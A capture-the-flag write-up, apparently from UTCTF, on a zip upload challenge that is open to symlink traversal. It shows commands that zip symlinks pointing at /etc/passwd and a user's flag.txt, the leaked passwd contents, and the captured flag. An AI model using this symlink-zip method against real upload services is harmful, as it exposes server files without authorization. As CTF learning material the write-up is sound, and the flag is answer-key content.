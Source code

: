 
### Challenge overview

In this challenge, we encounter a file upload feature designed for handling zip files. Upon successful upload, the contents of the zip file are extracted and displayed. Initial attempts to upload PHP and Python scripts failed, as they were merely reflected as plain text without execution.

### Exploiting Zip-Slip Vulnerability
Upon researching vulnerabilities associated with zip file uploads, we came across the concept of `zip-slips`. Zip-slip involves uploading symbolic links to server files, potentially allowing access to server files if proper validation measures are not implemented prior to file reflection.


First, we attempted to read the `/etc/passwd` file by creating a symlink and uploading it as a zip file:


``` bash
/Desktop$ ln -s ../../../../etc/passwd  sym1
/Desktop$ zip --symlinks sym1.zip sym1
```
- Its worked and reflected this:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
copenhagen:x:1000:1000::/home/copenhagen:/bin/sh
```

In the challenge description we're told that flag is located in home directory of some user, and in the last line we can see that `copenhagen` is a user.
So let's try reading flag from it's home directory:
``` bash
/Desktop$ ln -s ../../../../home/copenhagen/flag.txt  sym2
/Desktop$ zip --symlinks sym2.zip sym2
```
 Uploading this zip file, we're able to read the flag:\
 `utflag{No_Observable_Cats_Were_Harmed}`